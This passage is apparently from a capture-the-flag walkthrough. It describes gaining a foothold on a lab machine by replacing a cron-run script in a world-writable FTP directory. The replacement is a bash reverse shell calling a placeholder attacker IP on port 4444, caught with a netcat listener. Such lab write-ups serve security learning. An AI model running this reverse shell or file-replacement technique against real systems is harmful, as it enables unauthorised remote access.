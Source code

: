 Well it's a simple bash script which checks if a folder is empty or not. If it is, it saves a message in `removed_files.log` which we have downloaded. If it's not empty, It deletes them and saves the date and a message in the log file.


#### Reverse shell

I downloaded and checked the log file again, and a few messages have been added to it, which means the bash file is being run by a cronjob. Since the scripts directory is writable, we can replace the bash file in the ftp service, with a file containing a reverse shell with the same name and when the file is being run again, our reverse shell will be executed:

~~~
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .         <----------
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000          314 Jun 04  2020 clean.sh  <----------
-rw-rw-r--    1 1000     1000         4773 Nov 27 10:00 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
~~~

Let's see how it's done. First edit the script you downlaoded or create a new one with the same name. Then replcae the content with a bash reverse shell. Here's the reverse shell:

~~~
#!/bin/bash
bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1
~~~

Now first open a listener (`rlwrap nc -lvnp 4444`) and then log into the ftp service and head to `scripts` directory. Now use `put` command to uplaod the reverse shell:

~~~
ftp> put clean.sh
local: clean.sh remote: clean.sh
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
54 bytes sent in 0.00 secs (532.6705 kB/s)
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 111      113          4096 Jun 04  2020 .
drwxr-xr-x    3 65534    65534        4096 May 13  2020 ..
-rwxr-xrwx    1 1000     1000           54 Nov 27 10:11 clean.sh
-rw-rw-r--    1 1000     1000         5246 Nov 27 10:11 removed_files.log
-rw-r--r--    1 1000     1000           68 May 12  2020 to_do.txt
226 Directory send OK.
~~~

Now you can see the size has changed which means our reverse shell has been uplaoded. After waiting for a little while, we get a shell as `namelessone` and the first thing I did was spawning a TTY shell using a python one-liner:
